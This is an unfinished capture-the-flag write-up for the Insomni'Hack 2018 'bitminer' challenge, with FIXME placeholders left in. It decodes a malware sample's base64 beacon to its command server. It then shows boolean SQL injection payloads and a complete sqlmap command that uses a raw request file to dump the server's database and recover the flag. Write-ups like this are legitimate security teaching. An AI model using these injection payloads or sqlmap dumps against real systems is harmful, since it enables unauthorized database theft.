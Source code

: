```yaml
---
title: Insomni'Hack 2018 - Vba02-bitminer
published: false
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:

FIXME: Add the file
## Challenge resolution
FIXME: first step

The following base64 is sent over HTTP to the C2 by the malware: eyJjaWQiOiJERVNLVE9QLUQwMjE0VjgiLCJjcHUiOiJJbnRlbChSKSBDb3JlKFRNKSBpNS00MzEwVSBDUFUgQCAyLjAwR0h6IiwiZ3B1IjoiQ2FydGUgdmlkw6lvIGRlIGJhc2UgTWljcm9zb2Z0In0=
The decoded base64 is a json object:
```
{
    "cid":"DESKTOP-D0214V8",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the json content, we identify that the server send an error when a single quote is present in the gpu field. The vulnerability seems to be a SQL injection which can be easily checked by sending the following gpu value:
* ' or 1=1 \-\- always true, return go
* ' or 1=0 \-\- always false, return pwaaa

As we are lazy hackers, we use sqlmap to extract the database content. To do so, we use the -r option by defining a file containing all information the request (* is used to mark the injection point):
```
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:
``$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"DESKTOP-D0214V8","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump``

Finaly, we retrieve the flag from the flag tables: INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}


